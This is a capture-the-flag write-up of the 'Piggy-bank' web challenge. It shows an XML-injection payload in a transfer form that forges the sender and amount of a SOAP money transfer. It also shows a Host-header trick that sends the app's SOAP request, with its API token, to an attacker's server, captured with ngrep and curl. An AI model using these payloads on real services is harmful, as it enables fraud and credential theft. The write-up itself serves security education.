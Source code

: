 # Piggy-bank 

## Challenge description 
Hack some bank for me.  
[bank](http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/) 

## Overview 
Application seems to be a simple banking app which one can register an account and sign-into his/her account to perform some transactions. Each user will receive `110$` per registration as bonus point. By looking closely in app, it seems it's under sort of development for new API. At `for_developers.php` page in comments, there's a link to wsdl api page. 

```html
<!-- Link to the API (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php) (Testing stage) -->
``` 

In order to interacting better with web service, I installed Wsdler extension on Burp suite which by using that you can simply query the API. We can see there're two functions exported on this endpoint, one for checking the balance of a specific account (`requestBalance`) and the other one for making a transaction between two bank account (`internalTransfer`). 

## Objective 
There's a [VIP page](http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/vip.php), which only has the following text: 

```
This section is available only to privileged pigs with money in pockets. Transfer to the piggy-bank 1 000 000 coins and become important. 
```

So, in order to retrieve flag, one needs to have 1,000,000 coins in his account. I guess now tasks is pretty straightforward. Rob money from other account and get flag in VIP page. 

## Vulnerability 
I found two vulnerability in this challenge which the first one is [XML Injection](https://www.owasp.org/index.php/Testing_for_XML_Injection_\(OTG-INPVAL-008\)) and the second one is a trick to leak web service API token. 

* [API token leak](#token-leakage)

---- 
### XML injection 
>> by taking a look at trasnfer.php page, customer can enter receiver's bank ID and amount of money to be transferred. The request would be like the following: 

```
POST /home/transfer.php HTTP/1.1
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=6d3g0hckqb87h8e8q91qdsmnb7

receiver=2495&amount=100.00
``` 

>> As we noticed there's an API working with transferring money between account. Signature of that service andthe arguments needed to be passed to the service contains two more variables, sender and token, which we don't have access to [API token](#token-leakage). 

>> Service endpoint is located at `/api/bankservice.php` and the corresponding request for transferring money is: 

```xml
POST /api/bankservice.php HTTP/1.1
SOAPAction: urn:internalTransferAction
Content-Type: text/xml;charset=UTF-8
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:Bank">
<soapenv:Header/>
    <soapenv:Body>
        <urn:internalTransfer soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <receiver_wallet_num xsi:type="xsd:decimal">2479</receiver_wallet_num>
            <sender_wallet_num xsi:type="xsd:decimal">2495</sender_wallet_num>
            <amount xsi:type="xsd:float">1000000.00</amount>
            <token xsi:type="xsd:string">???</token> <!-- we don't have token!! -->
        </urn:internalTransfer>
    </soapenv:Body>
</soapenv:Envelope>
``` 

>> POST request on transfer page communicating with this function on API side and populate its XML with data provided by user. So, if the application doesn't sanitize user's provided input, attacker can inject XML content to the POST data. Payload I used is: 


```xml
POST /home/transfer.php HTTP/1.1
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=hn4gme6jp5inm5169rjullg7f3

receiver=1376</receiver_wallet_num><sender_wallet_num xsi:type="xsd:decimal">1339</sender_wallet_num><amount xsi:type="xsd:float">690067.00<!-- &amount=100 -->
``` 

>> In order to get a list of high balanced valuable accounts, you can brute force a little bit and I found a bunch of those. Now we got our first successful transaction and we should do it until our coins goes beyond 1,000,000. Finally we can get our shinny flag at VIP page: 

```
You are pig-Hacker! How you stole money?!?!! Flag: ctfzone{dcaa1f2047501ac0f4ae6f448082e63e} 
``` 


---- 
### Token leakage 
>> I got this idea from Ryo (@icchy), kudos to him. 
>> As it's obvious application should parse WSDL XML file to get endpoint address and other information regarding how to communicate with web service. In this way, if by chance one can modify host header of `transfer.php` to his own server, and respectively place the web service XML file which application is looking for that at `/var/www/html/api/bankservice.wsdl.php`; we can leak token which we previously didn't have during this communication which is somehow similar to be a MITM for web service. 

>> *1. On your server do: 
    >> `sudo ngrep -q -d ens4 -i '<token' -W byline port 80`
>> 2. Send a request to transfer.php with host: <your_server> 
    >> `curl -H 'host: your_server' http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/home/transfer.php -d 'receiver=1376&amount=100'`
>> then you should receive this packet: 

```xml
interface: ens4 (10.128.0.7/255.255.255.255)
filter: (ip or ip6) and ( port 80  )
match: <token

T 18.184.147.62:42468 -> 10.128.0.7:80 [AP]
POST /api/bankservice.php HTTP/1.1.
Host: 35.226.92.164.
Connection: Keep-Alive.
User-Agent: PHP-SOAP/7.0.30-0ubuntu0.16.04.1.
Content-Type: application/soap+xml; charset=utf-8; action="internalTransferAction".
Content-Length: 738.
.
<SOAP-ENV:Envelope SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="urn:Bank" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <SOAP-ENV:Body>
        <ns1:internalTransfer>
                <receiver_wallet_num xsi:type="xsd:decimal">1376</receiver_wallet_num>
                <sender_wallet_num xsi:type="xsd:decimal">1376</sender_wallet_num>
                <amount xsi:type="xsd:float">100</amount>
                <token xsi:type="xsd:token">somesupertokenkey1235555</token>
        </ns1:internalTransfer>
    </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
``` 

And here it is, API token leaked!: 

`<token xsi:type="xsd:token">somesupertokenkey1235555</token>` 



Sincerely,  
@pwnslinger :shell: :fish: [@Shellphish]  

